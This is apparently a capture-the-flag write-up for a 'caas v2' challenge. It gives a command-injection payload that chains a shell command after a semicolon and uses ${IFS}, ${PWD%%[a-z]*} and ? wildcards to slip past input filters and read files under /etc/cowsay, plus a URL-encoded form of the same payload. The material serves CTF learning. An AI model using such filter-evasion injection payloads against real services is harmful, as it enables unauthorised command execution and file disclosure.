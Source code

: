 # caas v2 Solution

Required outcome: `cat /etc/cowsay/*`

We utilize `${IFS}` for space, `${PWD%%[a-z]*}` for `/` and bash's `?` wildcard.

```
hi;cat${IFS}${PWD%%[a-z]*}e??${PWD%%[a-z]*}co????${PWD%%[a-z]*}*
```

After URL encoding the "?" it becomes:

```
hi;cat${IFS}${PWD%%[a-z]*}e%3F%3F${PWD%%[a-z]*}co%3F%3F%3F%3F${PWD%%[a-z]*}*
```

